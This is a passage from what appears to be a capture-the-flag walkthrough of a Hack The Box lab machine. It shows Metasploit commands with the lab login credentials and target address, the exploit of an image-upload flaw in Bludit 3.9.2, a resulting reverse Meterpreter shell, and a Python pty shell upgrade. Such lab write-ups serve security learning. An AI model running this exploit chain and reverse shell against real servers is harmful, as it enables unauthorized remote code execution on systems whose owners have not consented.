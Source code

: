Great, we have everything we need to solve this out.

```
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST x.x.x.x
LHOST => x.x.x.x
```

Note: the LHOST IP is your IP address after connecting to HTB's VPN. You can find this by typing ``ip address`` into your terminal and looking at the entry for the ``tun0`` interface.

Start the explot by typing ``exploit``. 

```
msf5 exploit(linux/http/bludit_upload_images_exec) > exploit
[*] Started reverse TCP handler on x.x.x.x:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading ngvFnJkGdF.png...
[*] Uploading .htaccess...
[*] Executing ngvFnJkGdF.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (x.x.x.x:4444 -> 10.10.10.191:xxxxx) at 2020-09-21 18:20:52 -0400
[+] Deleted .htaccess
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/tmp
=============================================
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  8054  fil   2020-09-21 13:17:40 -0400  47779.c
100644/rw-r--r--  100   fil   2020-09-21 12:36:18 -0400  hienqjmo.jpg
100644/rw-r--r--  128   fil   2020-09-21 12:15:49 -0400  lnnnbgkk.jpg
100644/rw-r--r--  121   fil   2020-09-21 12:14:23 -0400  ncxwzhxs.jpg
100644/rw-r--r--  2007  fil   2020-09-21 14:54:03 -0400  oklzkwxkdv.png
100600/rw-------  30    fil   2020-09-21 11:54:43 -0400  poc.php
40755/rwxr-xr-x   4096  dir   2020-09-21 16:35:20 -0400  temp
40755/rwxr-xr-x   4096  dir   2020-09-21 18:27:02 -0400  thumbnails
100644/rw-r--r--  2007  fil   2020-09-21 14:56:36 -0400  ucoghhcdok.png
```

POGGERS we are in. The shell isn't the greatest though, so we can use Python to spawn in a better one.

```
meterpreter > shell
Process 18095 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/sh")'
$ 
```

